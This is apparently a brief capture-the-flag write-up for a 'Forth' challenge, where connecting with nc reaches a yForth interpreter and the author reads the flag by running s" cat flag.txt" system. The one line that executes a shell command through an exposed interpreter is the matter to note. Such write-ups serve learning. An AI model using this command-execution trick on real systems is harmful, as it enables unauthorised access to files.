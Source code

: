 # Forth

> Solves: 372
> Connect to 136.243.194.49:1024 and get a shell.

This was only free point challange on CTF. 

nc will give you:

> yForth? v0.2  Copyright (C) 2012  Luca Padovani
> This program comes with ABSOLUTELY NO WARRANTY.
> This is free software, and you are welcome to redistribute it
> under certain conditions; see LICENSE for details.

After quick googling we were able to see that yForth is Forth environment in ANSI C. Quick look [Rosetta code](http://rosettacode.org/wiki/Execute_a_system_command#Forth "Rosetta code") for system code execution and we can type:

> s" cat flag.txt" system

